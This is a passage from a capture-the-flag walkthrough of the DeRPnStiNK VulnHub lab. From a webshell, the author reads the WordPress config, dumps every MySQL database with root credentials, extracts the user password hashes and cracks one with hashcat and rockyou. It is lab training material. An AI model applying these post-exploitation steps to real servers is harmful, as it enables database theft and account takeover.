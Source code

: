 ```
 */
$table_prefix  = 'wp_';

/**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 *
 * For information on other constants that can be used for debugging,
 * visit the Codex.
 *
 * @link https://codex.wordpress.org/Debugging_in_WordPress
 */
define('WP_DEBUG', false);

/* That's all, stop editing! Happy blogging. */

/** Absolute path to the WordPress directory. */
if ( !defined('ABSPATH') )
	define('ABSPATH', dirname(__FILE__) . '/');

/** Sets up WordPress vars and included files. */
require_once(ABSPATH . 'wp-settings.php');
www-data@DeRPnStiNK:/var/www/html/weblog $
```

We have a valid login for *MySQL* here, as `root`. Woot? So we dump all databases on our webshell: `mysqldump --user=root --password=mysql --all-databases > dump.sql` and then download the SQL file. At first I'm searching for a flag (we know the pattern of it):
```
root@kali:~/pentesting/vulnhub/derpnstink# cat dump.sql | grep -o "flag[0-9]([0-9A-Za-z]*)"
flag2(a7d355b26bda6bf1196ccffead0b2cf2b81f0a9de5b4876b44407f1dc07e51e6)
flag2(a7d355b26bda6bf1196ccffead0b2cf2b81f0a9de5b4876b44407f1dc07e51e6)
```

Hooray, we found our 2nd flag!

## Flag 3

It's half time, we found 2 flags out of 4. At first, let's dig deeper inside the SQL dump.
Interesting might be the passwords for the users.
```
INSERT INTO 'wp_users' VALUES
(1,'unclestinky','$P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41','unclestinky','unclestinky@DeRPnStiNK.local','','2017-11-12 03:25:32','1510544888:$P$BQbCmzW/ICRqb1hU96nIVUFOlNMKJM1',0,'unclestinky',''),
(2,'admin','$P$BgnU3VLAv.RWd3rdrkfVIuQr6mFvpd/','admin','admin@derpnstink.local','','2017-11-13 04:29:35','',0,'admin','');
```
We know that `admin` has the password `admin`, as of that I focus on the two password strings of `unclestinky`.
When we use hash type 400 in *hashcat* and using `rockyou.txt` as wordlist (Kali Linux has it in `/usr/share/wordlists/` as compressed file) we'll get: `$P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41:wedgie57`
